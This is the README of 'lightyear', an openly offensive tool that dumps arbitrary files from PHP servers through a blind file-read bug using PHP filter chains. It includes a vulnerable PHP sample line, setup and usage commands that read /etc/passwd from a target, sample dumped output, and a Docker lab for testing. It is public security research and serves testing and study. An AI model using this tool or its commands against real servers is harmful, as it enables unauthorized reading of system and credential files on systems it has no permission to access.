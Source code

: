 # lightyear

A tool to dump files in tedious (blind) conditions using PHP filters, by [cfreal](https://twitter.com/cfreal_). It can be used to dump any file using a blind file read primitive in PHP, such as:

```php
get_image_size($_GET['image']);
```

# Usage

## Setup

```bash
$ git clone https://github.com/ambionics/lightyear
$ cd lightyear
$ pip install -r requirements.txt
```

To use, implement the `Remote.oracle()` method, and then test that it works properly by running `./lightyear.py test`.

```bash
$ ./lightyear test # test that your implementation works
```

If it does, you are good to go.


## Dumping files

The `test` command will tell you if the remote server supports compression. If it does, use `-c` to drastically speed up the file dump.

```bash
$ ./lightyear.py -c /etc/passwd # dump a file with compression!
```

Otherwise, dump the file without compression (slower):

```bash
$ ./lightyear.py /etc/passwd # dump a file!
```

By default, lightyear uses *3* threads to speed up the file dump. Due to the way the algorithm works, it is generally useless to use more. You can however use less using ``--threads``.

## Resuming

If you interrupt and then restart a dump with the same destination file, the dump will resume.

```bash
$ ./lightyear.py /etc/passwd -o /tmp/passwd.txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:
<PRESSED CTRL-C>
>> Dumped /etc/passwd to /tmp/passwd.txt (got 243 digits, 390 bytes, 390 chars) (interrupted)
$ ./lightyear.py /etc/passwd -o /tmp/passwd.txt
[*] File exists, resuming dump at digit #243
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin

>> Dumped /etc/passwd to /tmp/passwd.txt (got 413 digits, 839 bytes, 839 chars)
```


# Testing

A docker file is available in `demo/`. It provides a very simple Apache+PHP environment allowing you to test the tool.

```
$ docker build -t lightyear-demo ./demo
$ docker run -d --name lightyear-demo --rm -p 8000:80 lightyear-demo
$ ./lightyear.py /etc/passwd
```

# Improvements

- Improve jump caching to truly reach minimum size and compute faster
- Combine with [wrapwrap](https://github.com/ambionics/wrapwrap)

# References

- [Blogpost describing the tool](https://www.ambionics.io/blog/lightyear-file-dump)